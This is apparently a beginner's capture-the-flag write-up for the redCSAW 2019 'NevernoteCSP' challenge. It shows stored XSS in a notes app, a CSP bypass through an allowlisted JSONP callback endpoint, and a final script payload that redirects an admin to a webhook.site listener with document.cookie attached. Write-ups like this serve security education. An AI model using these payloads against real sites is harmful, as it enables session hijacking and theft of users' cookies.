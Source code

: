 ## NevernoteCSP by sAINT_barber
---

*This is my first write up so be gentle*

This is a write up for the challenge NevernoteCSP on the redCSAW 2019 CTF competition.

First we are greeted with the challenge description

![alt text][image1]

We will be performing some sort of cookie stealing, and we also understand from the title that it will be pointing to a type of CSP bypass.

After creating an account and clicking around on the site the only thing you could actually do was create and upload notes.

![alt text][image2]

So, we can edit the note title and give it some content. And then we can report the post to an admin.
By this one can assume we will be doing some XSS with a cookie stealing payload to steal the admins cookie and get the flag!

The only area that does not sanitize the users input is the content area. As you can see below i have changed the content style to bold with the `<b>` tag

![alt][image3]

Now lets add a script with a simple alert!
`<script>alert('Haircuts')</script>`

![alt][image4]

Nothing came up, but we did get a warning in the dev-tools console tab

![alt][image5]

Content Security Policy is blocking the inline script, from the name 'script-src' it only accepts javascript from a source file. From there we can view the CSP in the network tab by clicking on a request and checking the headers

![alt][image6]

We can copy the policy into this site to check its' evaluation:
https://csp-evaluator.withgoogle.com/

We can see that the
`script-src 'self' cdn.jsdelivr.net *.ngs.ru` trusts domains 2 that are known to bypass CSP

![alt][image7]

After some googling i found from the cdn.jsdeliver.net domain a callback function that reflects whatever javascript you equal it as.

`https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')`

so now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')"></script>`

Lets place this in the content part of a new note and see if we bypass the CSP

And voila! We bypassed the CSP. Now we can move on to getting the admins cookie!

![alt][image8]

In general what we need to do now is report our note to the admin, wait until he/she opens our note it should redirect him/her to a malicious site that we are listening on so we can see his/her cookies in the request header.

I will be using a site called Webhook (https://webhook.site) as my listener.

We can use this javascript code to redirect the admin to our site.
`window.loaction.replace('malicioussite.poutses')`<br>
Our payload now looks like this<br>

`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762')"></script>`

Now all we need to do is add this payload then report to the admin, but if you're following along you will notice that as soon as we click on this note it will automatically redirect us to the webhooks listener (Thats what we want), and wont allow us to click the *report to admin link*. We can see the 'href' request makes: /notes/report/{note_id}, all we need to do is write down our note id and make a simple get request with that id.

Looking at the webhooks site we can see our admins request!

![alt][image9]

Perfect! Now all we need to do is use the document.cookie javascript method to print out the cookie, what i did is add the cookie to the query of the get request the admin performs on our malicious site e.g malicioussite.com/?name=sAINT_barber,

Now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762/?elaToCookie='.concat(document.cookie))"></script>`

*Note: I used the .concat() function to concatenate the document.cookie onto the query string, if you want to use the '+' sign then you will have to url encode it because the '+' in the url translates to a space.*

Now lets see if it works!

![alt][image10]

Boom! We can see in the Query strings our flag!

Note: If the cookie flag had the httpOnly flag then it would not print out with the document.cookie method.

A big Thank you to styx00! Not only did he help me complete the challenge, but also helped me understand the procedure of bypassing the CSP and Reflected XSS.

Flag: `flag{go_to_r/ProgrammerHumor_for_a_good_time}`



[image1]: /images/image1.png
[image2]: /images/image2.png
[image3]: /images/image3.png
[image4]: /images/image4.png
[image5]: /images/image5.png
[image6]: /images/image6.png
[image7]: /images/image7.png
[image8]: /images/image8.png
[image9]: /images/image9.png
[image10]: /images/image10.png
